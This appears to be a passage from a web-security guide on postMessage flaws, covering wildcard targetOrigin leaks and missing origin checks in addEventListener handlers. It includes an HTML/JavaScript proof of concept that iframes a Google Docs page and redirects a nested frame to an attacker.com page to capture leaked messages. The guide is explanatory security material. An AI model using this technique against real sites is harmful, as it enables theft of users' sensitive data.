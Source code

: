 ```bash
```

Note that **targetOrigin** can be a '\*' or an URL like _https://company.com._\
In the **second scenario**, the **message can only be sent to that domain** (even if the origin of the window object is different).\
If the **wildcard** is used, **messages could be sent to any domain**, and will be sent to the origin of the Window object.

### Attacking iframe & wildcard in **targetOrigin**

As explained in [**this report**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/) if you find a page that can be **iframed** (no `X-Frame-Header` protection) and that is **sending sensitive** message via **postMessage** using a **wildcard** (\*), you can **modify** the **origin** of the **iframe** and **leak** the **sensitive** message to a domain controlled by you.\
Note that if the page can be iframed but the **targetOrigin** is **set to a URL and not to a wildcard**, this **trick won't work**.

```markup
<html>
   <iframe src="https://docs.google.com/document/ID" />
   <script>
      setTimeout(exp, 6000); //Wait 6s
      
      //Try to change the origin of the iframe each 100ms
      function exp(){
          setInterval(function(){ 
              window.frames[0].frame[0][2].location="https://attacker.com/exploit.html";
          }, 100);
      }
   </script>
```

## addEventListener exploitation

**`addEventListener`** is the function used by JS to declare the function that is **expecting `postMessages`**.\
A code similar to the following one will be used:

```javascript
window.addEventListener("message", (event) => {
  if (event.origin !== "http://example.org:8080")
    return;

  // ...
}, false);
```

Note in this case how the **first thing** that the code is doing is **checking the origin**. This is terribly **important** mainly if the page is going to do **anything sensitive** with the received information (like changing a password). **If it doesn't check the origin, attackers can make victims send arbitrary data to this endpoints** and change the victims passwords (in this example).

### Enumeration
